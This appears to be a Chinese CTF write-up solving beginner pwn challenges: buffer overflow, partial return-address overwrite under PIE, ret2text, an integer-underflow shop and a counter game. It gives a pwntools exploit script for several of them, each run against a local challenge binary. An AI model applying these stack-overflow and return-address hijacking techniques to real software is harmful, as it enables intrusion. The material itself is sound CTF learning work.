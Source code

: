 # buffer_overflow

![[Pasted image 20250115091055.png]]
反编译后可以看出当`local_62`与`ans`中的内容一样是就可以获取`flag`。
![[Pasted image 20250115091300.png]]
可以看到ans的内容
![[Pasted image 20250115091337.png]]
打开gdb调试可以看到`local_62`内内容的位置，构造`payload`将其覆盖为`ans`内容即可。
exp:
```python
from pwn import *

  

local = True

if local:

p = process("./buffer_overflow")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

payload = b'a' * 0x46 + b'Limiter and Wings are beautiful girls!'

p.send(payload)

p.interactive()
```
flag:
![[Pasted image 20250115091529.png]]
# game

![[Pasted image 20250115092751.png]]
反编译后可以看出当local_14累加到999后就可以获取shell。
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./game")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

num = 0

# p.recvuntil(b"Let's paly a game!")

while num<=999:

p.sendlineafter(b'pls input you num:', b'9')

num += 9

p.interactive()
```
flag:
![[Pasted image 20250115092855.png]]
# pie
开启了pie保护
![[Pasted image 20250115100232.png]]![[Pasted image 20250115100243.png]]
栈溢出仅能覆盖返回地址的一位，显然是将其覆盖为backdoor。
exp：
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./pie")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

pwnlib.gdb,attach(p)

payload = b'a' * 0x28 + b'd'

p.sendline(payload)

p.interactive()
```
shell:
![[Pasted image 20250115100413.png]]
# real_login
![[Pasted image 20250115100541.png]]
当输入为password时获取shell
![[Pasted image 20250115100606.png]]
password如上
shell：
![[Pasted image 20250115100635.png]]
# ret2text
取名为ret2text则大概率有后门函数
![[Pasted image 20250116145056.png]]
有明显的栈溢出漏洞，找找后门函数
![[Pasted image 20250116145124.png]]
action不是CET-4 word所以他是后门函数~~找了半天~~ 
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./ret2text")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

# rbp = 0x4011fd

ret = 0x40101a

backdoor = 0x4014ba

  

payload = b'a' * 0x48 + p64(ret) + p64(backdoor)

p.recvuntil("Make a wish: ")

p.sendline(payload)

p.interactive()
```
shell:

# shop
运行后发现是一个简单的商店程序。
反编译后发现程序都没有明显的漏洞。
![[Pasted image 20250115155103.png]]
根据提示会告知我们为整数漏洞。
那么最明显的就是让我们的钱变为负数来触发漏洞。
正常的购买都会判断钱是否足够再扣钱，但选项3则会无条件扣除50.
![[Pasted image 20250115155212.png]]
那么只需要让拥有的钱数少于50后触发选项3就能触发整数漏洞。
![[Pasted image 20250115155407.png]]
可以看到初始钱数为0x64即100。
获取shell：
![[Pasted image 20250115155516.png]]